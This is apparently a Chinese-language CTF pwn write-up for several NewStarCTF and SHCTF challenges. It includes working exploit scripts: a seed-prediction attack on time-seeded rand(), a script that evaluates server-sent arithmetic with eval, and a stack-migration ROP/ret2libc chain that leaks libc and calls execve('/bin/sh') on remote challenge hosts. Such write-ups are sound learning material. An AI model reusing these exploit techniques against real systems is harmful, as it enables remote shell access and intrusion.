Note（PWN） - 0x00
0x00 #include<=斗智斗勇.h=>
”和r随a机n数d的博弈“ ~ NewStarCTF-Random && SHCTF-猜数游戏
NewStarCTF-Random，这题已经有了官方的WP，于是我决定把SHCTF的这道题的WP写一下。（反正这两题题型完全一样）checksec之后，发现保护全开，直接《------IDA，启动！------》



至此，发现只要能够调用func11就可以提权啦
仔细读了之后，看来是随机数的漏洞。众所周知，rand()产生的是伪随机数，当随机数的种子确定且相同的时候，rand函数产生的数值是一样的
而且它给出的种子是time(0)，既然没有栈溢出或者格式化字符串漏洞可以获取到当前的seed，也没有fork来进行爆破（虽然我还不会这种爆破（好吧，多线程的内容我根本还没学））
那么，是时候请出BF（Brute Force ， 暴力求解）兄弟了，直接暴力
那么怎么实现呢？？？人家产生的可是随机数啊，而且种子还是随时间变化的！！！你只有一次机会啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊！！！！
(肿么办哇~~~出题人是不是出错题目啦~~~怎么可以这么欺负人，尤其是新生~)
艹，我实在编不下去了。。。。。
按理来说，既然time产生的数值是当前时间距离另一个时间的秒数，那么在同一秒内，产生的time值就是相同的，
因此，我们可以使用ctypes，然后编写一个.so文件，然后尽量让我们这边和远程那边在同一秒生成time，这样rand的seed就是一样的了。毋庸置疑，之后产生的伪随机数就是完全一样的啦！！！
（这里其实也可以直接使用一个现成的glibc，然后省去了自己编写C语言代码的功夫啦）
这里在NewStarCTF那边的调用shell的方式很新，至少我是第一次见，甚至我曾一度怀疑那里真能调用shell吗... ...
EXPs：
#include <=stdlib.h>
#include <=stdio.h>
#include <=time.h>
void set_seed() {
time_t seed = time(NULL);
srand(seed);
}
int random_number() {
return rand();
}from pwn import*
import ctypes
lib=ctypes.CDLL('./random1.so')
tob = lambda text: str(text).encode('utf-8')
while 1:
try :
# p=process('./guess')
# # gdb.attach(p)
context.log_level = 'debug'
p=remote('112.6.51.212',32430)
lib.random_number.restype = ctypes.c_int
lib.set_seed()
result = lib.random_number()
print(result)
p.recvuntil(b"number?")
p.sendline(tob(11))
p.sendline(tob(result))
answer = p.recv(timeout = 3)
p.interactive()
p.sendline(b'ls')
if b'your guess not this number,plz try again,input 1 to continue or anything to quit' in answer:
p.close()
continue
elif length(answer)==0:
p.interactive()
else :
p.interactive()
except:
p.close()”是时候勾心斗角地进行字符串处理了！“ ~ SHCTF-口算题
Q：你知道怎么用pwntools吗？？？？？？？？？？？？？？A：我好像还真不知道，但是爷高中的时候最擅长的就是和字符串的处理勾心斗角，嘿嘿嘿~~~
题目没给ELF文件，只能nc一下康康

题目要求我们算200个口算题。身为一只pwn pwn 的宅男，怎能像大冤种一样真的口算？就算按计算器我都懒得干。。。
（再说我口算的速度也没法做到在200秒内口算200个计算题qwq）
思路就是直接按字符串读入，然后勾心斗角地转化为算式交给程序进行运算。但是我对python的熟练度并没有C++高，所以这题做的时候写代码的时候消耗的时间不该那么长的。。。
中间还有一个问题，就是运算符的问题。
题目中给出的算式的运算符的乘与除的符号并不是 * 与 / ，所以还需要转换一下下
EXP：
#coding=utf-8
from pwn import*
context.log_level='debug'
p=remote('112.6.51.212',32244)
i=1
# p.send(b'\n')
# def calculate_expression(expression: str) -> int:
# expression = expression.replace("×", "*")
# result = eval(expression)
# return result
# expression = "20329 × 36249"
# result = calculate_expression(expression)
# print(result)
p.sendafter('start...',b'\n')
p.recvuntil('\n')
s=p.recv()
s = s.replace(b"\xc3\x97", b"*")
s=s.replace(b"\xc3\xb7",b"/")
print(s[:-4])
res=eval(s[:-4])
print(res)
p.sendline(str(res))
for i in range(200):
p.recvuntil('\n')
p.recvuntil('\n')
s=p.recv()
s = s.replace(b"\xc3\x97", b"*")
s=s.replace(b"\xc3\xb7",b"/")
print(s[:-4])
res=eval(s[:-4])
print(res)
p.sendline(str(res))“艹你这exp太难绷了。” ~ NewStarCTF-stack migration
checksec之后感觉这道题挺平平无奇的

扔进IDA中，一看就是栈迁移（看题目也知道是栈迁移好吧~）但是实际编写过程中感觉这题也挺考验ROP和ret2libc的功底的。

于是，就有了第一版的EXP： （一些其他的细节和思路在源代码已经写出来了，这里不再赘述）
from pwn import*
context.log_level='debug'
context(os='linux',arch='amd64')
# p=process('./migr')
# gdb.attach(p)
p=remote('node4.buuoj.cn',28834)
elf=ELF('./migr')
libc=ELF('./libc.so.6')
shellcode=asm(shellcraft.sh())
pop_rsi_r15=0x401331
pop_rdi=0x401333
main=0x4011FB
leave_ret=0x4012AA
ret=0x40101a
puts_addr=elf.plt['puts']
read_addr=elf.plt['read']
func_addr=elf.got['read']
# context(arch='amd64',os='linux')
# gdb.attach(p)
payload1=p64(1)
p.sendafter('name:\n',payload1)
p.recvuntil('0x')
buf=p.recv(12)
buf=int(buf,16)
print(hex(buf))
payload2=p64(pop_rdi)+p64(func_addr)+p64(puts_addr)+p64(ret)+p64(main) +p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(buf+8*(8+2))+p64(read_addr) +p64(buf)+p64(leave_ret)
# payload2=shellcode.ljust(0x4F,b'\x00')+p64(buf)+p64(leave_ret) 上面长度不够，而且无法控制rdx，考虑再在main中进行一次栈迁移
p.sendlineafter(' plz:\n',payload2)
p.recvuntil('soon!\n')
addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(addr))
base=addr-libc.symbols['read']
system_addr=base+libc.symbols['system']
execve_addr=base+libc.symbols['execve']
str_bin_sh=base+next(libc.search(b'/bin/sh'))
# read fc0 puts 420 setvbuf ce0
# base=addr-0x10dfc0
# system_addr=base+ 0x52290
# str_bin_sh=base+0x1b45bd
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; ret
pop_rsi=0x2601f+base
pop_rdx=0x142c92+base
# 正常main函数栈迁移，抄的上面的 下面的栈迁移就直接调用system或者execve了
payload1=p32(1)
p.sendlineafter('name:\n',payload1)
p.recvuntil('0x')
buf=p.recv(12)
buf=int(buf,16)
print(hex(buf))
print(hex(system_addr))
# payload3=p64(pop_rdi)+p64(str_bin_sh)+p64(ret)+p64(system_addr) +p64(ret)+p64(main)+p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(buf+8*(8+2)) +p64(buf)+p64(leave_ret)
payload3=p64(pop_rdi)+p64(str_bin_sh)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(execve_addr) +p64(ret)+p64(pop_rdi) +p64(1) +p64(buf)+p64(leave_ret)
p.sendlineafter(' plz:\n',payload3)
p.interactive()
# 0x000000000040132c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040132e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401330 : pop r14 ; pop r15 ; ret
# 0x0000000000401332 : pop r15 ; ret
# 0x000000000040132b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040132f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040117d : pop rbp ; ret
# 0x0000000000401333 : pop rdi ; ret
# 0x0000000000401331 : pop rsi ; pop r15 ; ret
# 0x000000000040132d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
在gdb调试下，完全可以跳转到指定的位置执行code了，但是远程根本打不通。
按理来说在远程的条件下，最终填充的地址应改就是system或者execve的地址。那么为什么还打不通哇
于是蒟蒻去求助王神了。。。

于是蒟蒻就跟着 blog 现学了更换glibc版本的方法
果然，更换了glibc之后，再加上王神polish的EXP，果然打通了

from pwn import*
# context.terminal=['tmux','splitw','-h']
context.log_level='debug'
context(os='linux',arch='amd64')
# p=process('./migr')
# p=process(['./ld-2.31.so', './migr'], env={"LD_PRELOAD":'./libc.so.6'})
# gdb.attach(p,'b*0x40124d')
p=remote('node4.buuoj.cn',27781)
elf=ELF('./migr')
libc=ELF('./libc.so.6')
# shellcode=asm(shellcraft.sh())
pop_rsi_r15=0x401331
pop_rdi=0x401333
main=0x4011FB
leave_ret=0x4012AA
ret=0x40101a
puts_addr=elf.plt['puts']
read_addr=elf.plt['read']
func_addr=elf.got['read']
# context(arch='amd64',os='linux')
# gdb.attach(p)
payload1=p64(1)
p.sendafter('name:\n',payload1)
p.recvuntil('0x')
buf=p.recv(12)
buf=int(buf,16)
print(hex(buf))
payload2=p64(pop_rdi)+p64(func_addr)+p64(puts_addr)+p64(ret)+p64(main) +p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(buf+8*(8+2))+p64(read_addr) +p64(buf)+p64(leave_ret)
# payload2=shellcode.ljust(0x4F,b'\x00')+p64(buf)+p64(leave_ret) 上面长度不够，而且无法控制rdx，考虑再在main中进行一次栈迁移
p.sendafter(' plz:\n',payload2)
p.recvuntil('soon!\n')
addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(addr))
base=addr-libc.symbols['read']
system_addr=base+libc.symbols['system']
execve_addr=base+libc.symbols['execve']
str_bin_sh=base+next(libc.search(b'/bin/sh'))
print('base:'+hex(base))
# read fc0 puts 420 setvbuf ce0
# base=addr-0x10dfc0
# system_addr=base+ 0x52290
# str_bin_sh=base+0x1b45bd
# gadgets in libc
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; ret
pop_rsi=0x2601f+base
pop_rdx=0x142c92+base
# 正常main函数栈迁移，抄的上面的 下面的栈迁移就直接调用system或者execve了
payload1=p32(1)
pause()
p.sendafter('name:\n',payload1)
p.recvuntil('0x')
buf=p.recv(12)
buf=int(buf,16)
print(hex(buf))
print(hex(system_addr))
# payload3=p64(pop_rdi)+p64(str_bin_sh)+p64(ret)+p64(system_addr) +p64(ret)+p64(main)+p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(buf+8*(8+2)) +p64(buf)+p64(leave_ret)
payload3=p64(pop_rdi)+p64(str_bin_sh)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(ret)+p64(execve_addr)+p64(pop_rdi) +p64(1) +p64(buf)+p64(leave_ret)
p.sendafter(' plz:\n',payload3)
p.interactive()
# 0x000000000040132c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040132e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401330 : pop r14 ; pop r15 ; ret
# 0x0000000000401332 : pop r15 ; ret
# 0x000000000040132b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040132f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040117d : pop rbp ; ret
# 0x0000000000401333 : pop rdi ; ret
# 0x0000000000401331 : pop rsi ; pop r15 ; ret
# 0x000000000040132d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
至于为什么不更换glibc就没有办法打通，我还是有些疑惑的
目前来说，可能的猜想就是exp中用到的read的地址是由glibc产生的，那么在远程的read的地址就是完全不一样的，
那么就导致打远程的时候，调用的并非是read，而是其他乱七八糟的gadgets或者根本无效的地址。。
"那不随便打" ~ NewStarCTF-shellcode revenge
王神：之前在发的New Star和SHCTF这两个校外的新生赛，现在公开赛道已经是第二周了。有时候办新生赛的主办方会放一些特别难的题防止老生炸鱼。新同学如果遇到那种解特别少的题就不要死磕了，可以把题发出来，让老生鉴定一下这题新生水平能不能做。老生炸鱼真实影像资料：

checksec之后注意开启了canary，顿时感觉到不对劲

扔进IDA，发现canary除了限制做法其他p用都没有，虚惊一场。。。

基本思路就是读入一个shellcode执行，反正也没有NX的事，毕竟人家都直接给你jump过去了。。。
但是这题读入的时候有个限制，就是只能读入char下的0~9，A~Y，非常令人头痛。。。我还真没有见过这种有限制的shellcode。
但是仔细想了10.00000000000000000000000000000000秒之后，我就觉得可以先构造一些gadgets然后把shellcode中没法直接传入的字节用xor，add，sub等运算给搓出来
但是我见过最短的shellcode也要32字节，用手搓也太痛苦了啊啊啊啊
（不会真有大冤种用异或手搓出来整个shellcode吧）
但是王神的方法可以说是灰常巧妙了啊，首先main函数读入的时候，手搓一个read函数，然后用自己手搓的没有限制的read函数读入shellcode并且执行。这样的优点就是工作量大大减少，而且read函数的地址的异或的算式可以用函数进行生成。那么工作量就会大大减少（既然又生成的函数了，那么32字节的shellcode也就看起来工作量也不是那么大了）。
具体的EXP我就不放了，毕竟是不是我做出来的，我也没有去拿那题的分